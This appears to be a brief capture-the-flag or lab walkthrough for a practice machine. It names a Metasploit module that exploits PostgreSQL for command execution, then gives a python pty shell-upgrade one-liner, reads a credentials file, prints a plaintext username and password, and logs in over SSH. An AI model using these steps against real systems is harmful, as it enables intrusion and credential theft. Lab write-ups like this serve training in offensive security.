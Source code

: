 After using exploiting postgres database

exploit/multi/postgres/postgres_copy_from_program_cmd_exec

get better shell

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

```bash
cat /home/dark/credentails.txt
```
dark:qwerty1234#!hackme
use ssh to connect to server

```bash
ssh dark@0.0.0.0
```

